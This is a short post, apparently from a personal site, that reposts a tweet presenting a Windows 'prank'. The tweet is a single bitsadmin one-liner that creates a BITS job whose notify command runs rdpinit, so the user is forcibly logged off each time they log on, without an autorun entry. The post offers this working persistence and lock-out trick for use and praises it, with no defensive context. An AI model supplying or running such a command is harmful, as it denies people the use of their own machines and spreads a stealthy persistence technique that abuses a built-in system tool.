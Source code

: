 ```yaml
---
title: A Cool Windows Prank :)
repost_link: https://twitter.com/fkadibs/status/1434291573655752706
---
```


[@fkadibs](https://twitter.com/fkadibs):

> log off a user whenever they log on, without an autorun:
>
> `bitsadmin /create 1 & bitsadmin /addfile 1 google.com/0.html %temp%\0.html & bitsadmin /setnotifycmdline 1 rdpinit NULL & bitsadmin /resume 1`

This was in reply to a [@SwiftOnSecurity](https://twitter.com/swiftonsecurity) tweet (you should follow them btw) saying:

> Running "rdpinit" in Windows run command will immediately forcibly logoff the user.

what a cool prank :)
